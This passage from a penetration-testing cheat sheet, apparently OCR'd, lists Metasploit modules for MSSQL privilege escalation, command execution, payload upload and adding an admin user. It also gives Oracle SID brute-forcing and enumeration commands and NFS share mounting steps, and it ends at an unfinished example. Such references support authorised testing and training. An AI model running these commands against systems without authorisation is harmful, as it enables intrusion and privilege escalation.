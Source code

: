         -   msf\> use admin/mssql/mssql\_escalate\_dbowner \#Escalate from db\_owner to sysadmin

        -   **Code execution**

        -   msf\> use admin/mssql/mssql\_exec \#Execute commands

        -   msf\> use exploit/windows/mssql/mssql\_payload \#Uploads and execute a payload

        -   **Add new admin user from meterpreter session**

        -   msf\> use windows/manage/mssql\_local\_auth\_bypass

-   **Oracle db port 1521 open**

    -   **Nmap**

        -   nmap -p 1521 -A 192.168.15.205

        -   nmap -n -v -sV -Pn -p 1521 \--script=oracle-enum-users \--script-args sid=ORCL,userdb=users.txt 192.168.1.10

        -   nmap -n -v -sV -Pn -p 1521 \--script=oracle-sid-brute 192.168.1.10

    -   **oscanner**

        -   root\@kali:\~\# oscanner -s 192.168.1.15 -P 1040

    -   **sidguess**

        -   root\@kali:\~\# sidguess -i 192.168.1.205 -d /usr/share/wordlists/metasploit/unix\_users.txt

    -   **Tnscmd10g**

        -   tnscmd10g version -h 192.168.1.10

        -   tnscmd10g status -h 192.168.1.10

    -   **Metasploit**

        -   auxiliary/scanner/oracle/emc\_sid

        -   auxiliary/scanner/oracle/oracle\_login 

        -   auxiliary/scanner/oracle/sid\_brute

        -   auxiliary/scanner/oracle/sid\_enum

        -   auxiliary/scanner/oracle/tnslsnr\_version

        -   auxiliary/scanner/oracle/tnspoison\_checker

-   **Nfs port 2049 open**

    -   NFS stands for Network File System and it is a service that can be found in Unix systems. The purpose of NFS is to allow users to access shared directories in a network

    -   To know which folder has the server available to mount you an ask it using:

        -   showmount -e INSERTIPADDRESS (/ \* = root directory)

    -   If you found any shared directory you can mount it by

        -   mount -t nfs \[-o vers=2\] \[ip\]:\[remote\_folder\] \[local\_folder\] -o nolock

        -   Example :
